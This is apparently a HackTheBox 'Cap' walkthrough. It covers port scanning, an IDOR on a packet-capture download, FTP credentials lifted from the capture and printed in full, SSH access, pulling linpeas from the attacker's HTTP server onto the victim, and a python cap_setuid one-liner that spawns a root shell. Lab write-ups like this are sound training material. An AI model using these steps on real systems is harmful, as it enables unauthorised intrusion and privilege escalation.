


# Cap HackTheBox WalkThrough


We start the machine by scanning all TCP ports.

```
nmap -sS -p- -Pn -n --min-rate 5000 10.129.129.34


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-20 14:53 CEST
Nmap scan report for 10.129.129.34
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.05 seconds
```

The open ports are `21`, `22`, and `80`, so we’ll check what services are running on them.

```
nmap -sVC -p 21,22,80 10.129.129.34 --min-rate 5000 -oN services.nmap


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-20 14:57 CEST
Nmap scan report for 10.129.129.34
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 20 Oct 2024 12:57:20 GMT
...More irrelevant content...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.10 seconds
```

Since we don’t have credentials to connect via `ftp` or `ssh`, we’ll check the website running on port `80`.


We see a dashboard that looks like an IDS (Intrusion Detection System).

In `Security Snapshot...`, there’s a page where we can download packet captures, which we can open with Wireshark.


The capture downloaded by clicking "download" is empty, so there’s not much we can do with it.

After capturing the `download` request with Burp Suite, we notice it is a GET request to `/download/[number]`. Let’s try changing that number to see if we get anything different.


Changing the target path number to `0` returns a significantly larger file, indicating it’s not empty. We’ll download it and inspect it in Wireshark.



Since the machine had an open `FTP` service on port `21`, we’ll filter for "ftp" in Wireshark to look for any authentication packets where we can steal some credentials.



We can see that a user `nathan` authenticated with the password `Buck3tH4TF0RM3!`. Since `FTP` and `SSH` often use the credentials of the users in the system, let’s try authenticating via ssh with the credentials we just found.

```
ssh nathan@10.129.129.34
nathan@10.129.129.34's password: Buck3tH4TF0RM3!
```

Authentication is successful, and we can retrieve the user flag.

```
cd
cat user.txt
```

To work more comfortably, we’ll set the `TERM` environment variable to `xterm`.

```
export TERM=xterm
```

For privileges escalation, we’ll run `linpeas`, which scans the system for potential privilege escalation paths.

We’ll download the script to our attack machine and start an HTTP service with Python to transfer it to the victim machine.

```
wget https://github.com/peass-ng/PEASS-ng/releases/download/20241011-2e37ba11/linpeas.sh
python3 -m http.server 80
```

Then download it on the victim machine.

```
wget 10.10.14.43/linpeas.sh
```

Make it executable and run it.

```
chmod +x linpeas.sh
./linpeas.sh


...more linpeas output...

Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

...more linpeas output...
```

Among other things, it shows that Python has the `setuid` capability, which works similarly to the `setuid` bit.

---

**What is a capability?**

*In Linux, capabilities are a way to split root privileges for processes into smaller, specific units.*

*You can learn more about capabilities and how to exploit them [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example).*

---

To exploit this, we’ll change the `uid` to `0` (root’s uid) and execute any command as `root`. This can only be done if we have the `SUID` bit or a similar capability.

```
python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
```

It worked; now we’re `root`, and we can retrieve the root flag.

```
cd /root
cat root.txt
```

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.